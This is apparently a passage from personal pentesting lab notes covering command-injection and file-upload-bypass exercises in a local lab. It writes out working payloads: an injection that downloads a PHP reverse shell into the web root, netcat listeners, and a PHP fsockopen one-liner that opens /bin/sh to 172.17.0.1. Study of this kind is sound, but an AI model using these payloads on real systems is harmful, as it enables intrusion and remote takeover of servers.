- otherwise try:
  `https://google.com && curl 172.17.0.1:8080/rev.php > /var/www/html/rev.php`
	![[Pasted image 20240308150121.png]]
  now:
	- open new tab and setup a listener -->  `nc -nvlp 444`
	- open new browser page and search -->  localhost/rev.php
	  ![[Pasted image 20240308150350.png]]
	  
	  <span style="color:#00b050">We have our shell!</span>

#### Command injection 0x03
goal -->  popup a shell
This is our input
![[Pasted image 20240308152423.png]]

Let's try to inject in the last one
- the command ends as an `'`
	- we can try to put as last parameter -->  `';whoami;`
		- this don't work but we don't have an error
		  =>
		- try with -->  `';whoami;#`     (to don't execute the last line)
		  _<span style="color:#00b050">it works</span> 
		  ![[Pasted image 20240308152942.png]]

Now we want a shell:
- `';which php;#` -->  php is available and is in `/usr/local/bin/php`
  =>
<span style="background:#fff88f">we can spawn a php shell:</span>
- `nc -nlvp 4444` -->  setup a listener
- grab a php payload from -->  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)
- `';php -r '$sock=fsockopen("172.17.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#`
  _<span style="color:#00b050">WE HAVE A SHELL </span> 


### File upload
#### Basic Bypass 0x01
let's understand how this file upload works:
first we can try to upload a txt file:
- `echo "test" > test.txt`
- it doesn't work --> prompt the user that are acceptable only png and jpg

check the calls to the webserver:
- open the dev tool -->  `CTRL+ALT+C`
- go to Network
- Reload the page
- Upload again the txt file
- check if the app is doing some checks (here only png and jpg)

###### BurpSuite
- download an image
- Setup initial things for BurpSuite -->  [[cheat#Initial things to do]]
- upload the img to the webserver
- open the req into Burp
- Send it to Repeater (CTRL+R)
- <span style="background:#fff88f">We want to verify if the check that server performed happens only client Side or also Server:</span>
  =>
	- delete the img from the req    (select all the img, not like in the screen)
	  ![[Pasted image 20240309102311.png]] 
	- put some text instead 
	- change the filename to -->  .txt